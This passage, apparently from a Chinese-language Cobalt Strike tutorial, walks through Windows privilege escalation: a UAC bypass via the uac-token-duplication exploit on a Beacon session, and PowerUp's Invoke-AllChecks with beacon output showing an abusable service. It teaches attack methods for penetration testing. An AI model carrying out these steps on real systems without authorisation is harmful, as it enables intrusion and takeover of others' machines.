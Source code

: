 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs12-1.png)

### Bypass UAC

Bypass UAC 有两个步骤，分别是：

1、利用 UAC 漏洞来获取一个特权文件副本

2、使用 DLL 劫持进行代码执行

首先使用`shell whoami /groups`查看当前上线主机用户的所属组及 UAC 等级

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs13-1.png)

通过返回信息可以看出，当前用户为管理员权限，UAC 等级为中，根据上一节中关于的介绍，此时可以使用`bypassuac`进行提权。

首先，右击会话，选择`Access --> Elevate`，这里选择一个 SMB Beacon，Exploit 选择`uac-token-duplication`，最后 Launch 即可。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs13-2.png)

待 Beacon Check in 后，当前用户 UAC 为高权限的会话便会上线了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs13-3.png)



## 3、PowerUp

PowerUp 所做的事是寻找可能存在弱点的地方，从而帮助提权。

利用 PowerUp 进行提权需要首先导入 ps1 文件`powershell-import PowerUp.ps1`，再执行`powershell Invoke-AllChecks`命令，使用 PowerUp 脚本可以快速的帮助我们发现系统弱点，从而实现提权的目的。

> 其中`PowerUp.ps1`文件可从这里下载：[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

**PowerUp 的使用**

执行以下命令：将 ps1 文件上传到目标主机，并执行所有弱点检查。

```
powershell-import PowerUp.ps1
powershell invoke-allchecks
```

详细运行过程：

```
beacon> powershell-import PowerUp.ps1
[*] Tasked beacon to import: PowerUp.ps1
[+] host called home, sent: 275084 bytes

beacon> powershell invoke-allchecks
[*] Tasked beacon to run: invoke-allchecks
[+] host called home, sent: 313 bytes
[+] received output:
[*] Running Invoke-AllChecks
[+] Current user already has local administrative privileges!
[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...
[+] received output:
ServiceName                     : AeLookupSvc
Path                            : C:\Windows\system32\svchost.exe -k netsvcs
ModifiableFile                  : C:\Windows\system32
ModifiableFilePermissions       : GenericAll
ModifiableFileIdentityReference : BUILTIN\Administrators
StartName                       : localSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AeLookupSvc'
CanRestart                      : True
```